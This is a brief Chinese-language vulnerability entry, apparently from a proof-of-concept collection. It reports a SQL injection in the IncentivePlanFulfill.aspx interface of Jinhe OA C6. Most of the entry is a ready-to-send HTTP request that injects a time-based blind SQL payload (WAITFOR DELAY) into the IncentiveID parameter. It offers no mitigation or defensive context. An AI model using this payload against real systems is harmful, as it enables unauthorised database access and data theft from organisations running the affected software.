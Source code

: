 **漏洞描述：**

金和OA C6 IncentivePlanFulfill.aspx接口存在SQL注入漏洞，攻击者可以注入恶意SQL语句恶意获取数据库数据。

**影响版本：**

金和OA

**Payload：**

```yaml
GET /C6/JHSoft.Web.IncentivePlan/IncentivePlanFulfill.aspx/?IncentiveID=1WAITFOR+DELAY+%270:0:6%27--&TVersion=1 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
Cookie: ASP.NET_SessionId=0uha1u0nhrn4meghddjiwu0y
Accept-Encoding: gzip
```

---
